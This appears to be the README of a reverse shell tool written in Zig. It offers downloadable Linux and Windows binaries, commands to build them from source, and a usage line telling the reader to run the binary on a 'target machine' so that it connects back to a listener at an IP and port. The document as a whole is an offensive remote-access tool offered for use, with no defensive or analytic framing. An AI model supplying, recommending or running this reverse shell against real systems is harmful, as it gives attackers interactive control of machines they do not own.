 # Zig Reverse Shell 

## Download

Get the binary for your target platform.

Linux: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.1/revshell-linux-x86_64)  
Windows: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.1/revshell-windows-x86_64.exe)

<br />

## Build from Source

Clone the repository and build for your target platform:

```sh
# Linux target
zig build -Dtarget=x86_64-linux

# Windows target
zig build -Dtarget=x86_64-windows
```

After that, the executable is generated under `zig-out/bin` directory.

<br />

## Usage

Execute the binary in your target machine:

```sh
./revshell 10.0.0.1 4444
```